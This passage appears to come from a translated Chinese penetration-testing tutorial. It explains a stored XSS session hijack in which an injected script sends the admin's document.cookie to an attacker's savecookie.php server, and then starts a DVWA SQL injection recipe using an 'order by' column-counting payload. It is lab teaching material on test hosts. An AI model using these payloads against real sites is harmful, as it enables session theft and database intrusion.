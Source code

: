     现在我们通过持久性 XSS 攻击劫持了管理员的会话。
    
### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用 JavaScript 的 XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```js
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL 添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存 cookie 值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```js
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。

### 更多

不仅仅是保存会话 Cookie 到文件，恶意服务器也可以使用这些 cookie 来向应用发送请求来冒充正常用户，以便执行操作，例如添加或删除评论、上传图片或创建新用户，甚至是管理员。

## 6.7 逐步执行基本的 SQL 注入

我们在第四章了解了如何检测 SQL 注入。这个秘籍中，我们会利用这个注入，并提取数据库的信息。

### 操作步骤

1.  我们已经知道了 DVWA 存在 SQL 注入的漏洞。所以我们使用 OWASP Mantra 登录，之后访问` http://192.168.56.102/dvwa/vulnerabilities/ sqli/`。

2.  在检测 SQL 注入存在之后，下一步就是查询，准确来说就是结果有多少列。在 ID 框中输入任何数字之后点击`Submit`。

3.  现在，打开 HackBar（按下 F9）并点击`Load URL`。地址栏中的 URL 应该出现在 HackBar 内。

4.  在 HackBar 中，我们将`id`参数的值替换为` 1' order by 1 -- '`，并点击`Execute`。

5.  我们通过执行请求，持续增加`order`数字后面的值，直到发生错误。这里例子中，它在`3`的时候发生。

    ![](img/6-7-1.jpg)
    